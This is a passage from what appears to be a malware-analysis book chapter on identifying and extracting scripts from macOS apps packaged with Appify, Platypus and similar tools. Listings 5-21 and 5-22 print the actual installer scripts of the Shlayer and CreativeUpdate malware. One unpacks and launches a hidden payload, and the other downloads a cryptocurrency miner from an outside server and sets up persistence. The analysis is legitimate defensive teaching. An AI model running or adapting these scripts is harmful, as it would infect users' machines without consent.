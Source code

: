 that the disassembly of a binary’s `main` function can also provide a way to determine if it was built with PyInstaller. How? Simple! The main function calls into PyInstaller’s entry point, `pyi_main` (Listing 5-20).    ``` void main() {    pyi_main(rdi, rsi, rdx, rcx, r8, r9);    return; } ```    Listing 5-20: A binary invoking PyInstaller’s entry point    Applications that were built with Electron will be linked against a framework called `Electron Framework.framework`. Moreover, you can find the nonbinary components, which are generally JavaScript files, in the application’s *Contents/Resources/* directory, saved as *.asar* files.    It’s important to note that these tools are legitimate, and many developers use them to generate safe applications. Don’t assume a binary or application is malicious solely because it was packaged up for distribution by one of these tools.    ### Extracting the Nonbinary Component    Let’s now look at various malware samples packaged up using these tools and see exactly how to extract their nonbinary components.    In early 2021, a variant of Shlayer was discovered spreading via poisoned search engine results.^(15) As it was a simple application bundle missing an *Info.plist* file, and other than an icon file only contained a script (whose name, *1302*, matched the application’s), it was likely packaged up via Appify (Figure 5-8).  ![Within 1302’s folder in the macOS installer, the script of 1302.app is nestled underneath Contents▶MacOS.](img/f05008.png)    Figure 5-8: A simple script-based application, likely built via Appify (Shlayer)      As Appify directly adds the scripts, as is, to the application bundle, no special tools are required to extract the script for analysis. And since it’s a script, analysis can commence without the use of any fancy binary static analysis tools (Listing 5-21).    ``` % **file 1302.app/Contents/MacOS/1302**  1302.app/Contents/MacOS/1302: Bourne-Again shell script executable (binary data)  % **cat 1302.app/Contents/MacOS/1302**  #!/bin/bash 1 TEMP_NAME="$(mktemp -t Installer)" 2 tail -c 58853 $0 | funzip -1uD9jgw > ${TEMP_NAME} 3 chmod +x "${TEMP_NAME}" && nohup "${TEMP_NAME}" > /dev/null 2>&1 & killall Terminal exit PK^C^D^T^@... ```    Listing 5-21: A malicious installer script (Shlayer)    After creating a temporary filename 1, the malware unzips password-protected data found at the end of the script into this temporary file 2. It then makes this file executable and launches it 3. Continued analysis identified this embedded payload as the well-known Bundlore malware. Interestingly (and completely unintentionally), applications created by Appify would inadvertently trigger a logic flaw in macOS, allowing such applications to bypass various security mechanisms, such as Gatekeeper and notarization requirements!^(16)    In early 2018, the popular application website MacUpdate posted an alert notifying visitors that certain links on the site had been subverted to point to malware (Figure 5-9).  ![MacUpdate’s alert warning users that they had found a link to a posted Firefox update to be malicious and had removed it.](img/f05009.png)    Figure 5-9: A security warning from MacUpdate      As the links on the site had been compromised, users were inadvertently downloading trojanized applications containing malware. The malware, named CreativeUpdate, would download and install a persistent cryptocurrency miner that malware authors had surreptitiously hosted on Adobe’s Creative Cloud servers.    In a tweet, security researcher Arnaud Abbati noted that it was packaged up via Platypus.^(17) Recall that applications created by Platypus bundle up the script into *Contents/Resources/script*. If we look at a trojanized application, in this case Firefox, infected with CreativeUpdate, we find such a script (Figure 5-10).  ![Within the Firefox installer, the malicious script (labeled as a Unix executable file) is found under Contents▶Resources.](img/f05010.png)    Figure 5-10: A malicious installer script embedded via Platypus (CreativeUpdate)      This script is shown in Listing 5-22:    ``` open Firefox.app 1 if [ -f ~/Library/mdworker/mdworker ]; then  killall MozillaFirefox else 2 nohup curl -o ~/Library/mdworker.zip   https://public.adobecc.com/files/1U14RSV3MVAHBMEGVS4LZ42AFNYEFF?content_disposition=attachment &&  unzip -o ~/Library/mdworker.zip -d ~/Library && mkdir -p ~/Library/LaunchAgents &&  mv ~/Library/mdworker/MacOSupdate.plist ~/Library/LaunchAgents && sleep 300 &&  launchctl load -w ~/Library/LaunchAgents/MacOSupdate.plist && rm -rf ~/Library/mdworker.zip &&  killall MozillaFirefox & fi ```    Listing 5-22: A malicious installer script (CreativeUpdate)    As the script is quite readable, we can easily understand the malicious logic. First, it launches the non-trojanized version of Firefox so that nothing appears amiss to the user 1. If the malware is not already installed (to *~/Library/mdworker/mdworker*) the logic in the `else` clause is executed. This downloads and installs a persistent payload from Adobe’s public Creative Cloud servers (*public.adobecc.com*) 2. The payload turns out to be a public command line cryptocurrency miner, *minergate-cli* from MinerGate, as you can see by running it with `-help` (Listing 5-23):^(18)    ``` % **./mdworker -help**   Usage:   minergate-cli [-version] -user <email> [-proxy <url>]                  -<currency> <threads> [<gpu intensity>]                  [-<currency> <threads> [<gpu intensity>] ...]                  [-o <pool> -u <login> [-t <threads>]                 [-i <gpu intensity>]] ```    Listing 5-23: MinerGate’s command line cryptocurrency miner    Once we identified the malware as built with Platypus, we were able to comprehensively analyze it without having to resort to utilizing complex binary analysis methods.    PyInstaller is a useful tool that can package up a Python script into a native macOS binary or